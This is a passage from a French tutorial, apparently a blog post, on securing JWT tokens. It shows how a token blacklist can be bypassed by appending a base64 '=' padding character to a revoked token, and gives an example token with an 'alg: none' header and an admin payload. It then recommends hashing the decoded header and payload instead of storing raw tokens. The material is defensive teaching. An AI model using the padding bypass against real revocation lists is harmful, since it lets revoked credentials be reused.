Cette solution n'est pas pratique car on doit stocker "l’état révoqué" ou non du jeton dans le serveur. C’est donc une solution stateful, et s’il est possible d’avoir recours à cette solution, c’est qu’il est probablement aussi possible d’avoir recours à une vrai solution de session côté serveur.

Il est par ailleurs souvent possible de bypasser cette blacklist, quand y sont enregistrés les jetons en bruts : rappelons que le header, le payload et la signature sont encodés en base64.

En effet, en base64, le caractère de padding `=` peut faire en sorte que deux chaînes de caractères en base64 différentes, donnent une fois décodées la même chaîne de caractères (pour plus d’informations sur le padding, je vous invite à lire la [RFC 4648](https://tools.ietf.org/html/rfc4648)).

Prenons l’exemple de ce jeton qui est dans la blacklist :

```
ewogImFsZyIgOiAibm9uZSIsCiAidHlwIiA6ICJKV1QiCn0=.ewoJInVzZXJuYW1lIiA6ICJoNHhvciIsCgkiaXNBZG1pbiIgOiAxLAp9.NmWwHkoBnn7m03Q32gR_K2Xp-7T7T3JLTMEr8iksouA
```

Il suffirait simplement d’ajouter un padding `=` à la fin du jeton pour qu'il soit différent et donc qu'il échappe à la blacklist :

<pre><code>
ewogImFsZyIgOiAibm9uZSIsCiAidHlwIiA6ICJKV1QiCn0=.ewoJInVzZXJuYW1lIiA6ICJoNHhvciIsCgkiaXNBZG1pbiIgOiAxLAp9.NmWwHkoBnn7m03Q32gR_K2Xp-7T7T3JLTMEr8iksouA<b>=</b>
</code></pre>

Techniquement, le jeton modifié est mal encodé (question d'arithmétique).

Mais dans les faits, la fonction de décodage donnera exactement le même résultat pour les deux jetons, seules leurs versions encodées seront considérées comme différentes, ce qui permet de passer outre la blacklist sans rendre le jeton invalide.

Donc si vous voulez absolument mettre une blacklist en place, je vous conseille pour chaque jeton à révoquer de :

- Décoder son header, puis de le hacher avec CRC-32 ou SHA-1 dans une variable
- Décoder son payload et de le hacher avec le même algorithme dans une autre variable
- Concaténer les deux variables et ajouter le tout dans la blacklist

Pour vérifier un jeton, il faudra utiliser le même procédé de hachage afin de comparer son hash aux hashs de la blacklist.  
<br>
<br>
Félicitations ! Vous êtes maintenant capables d'implanter JWT sur votre application en toute sécurité !

Si avez des questions, ou que vous voulez que je sécurise votre site web : contactez moi par mail à [nas2pwn@protonmail.com](mailto:nas2pwn@protonmail.com) ou par DM twitter [@nas2pwn](https://twitter.com/nas2pwn) :smiley:
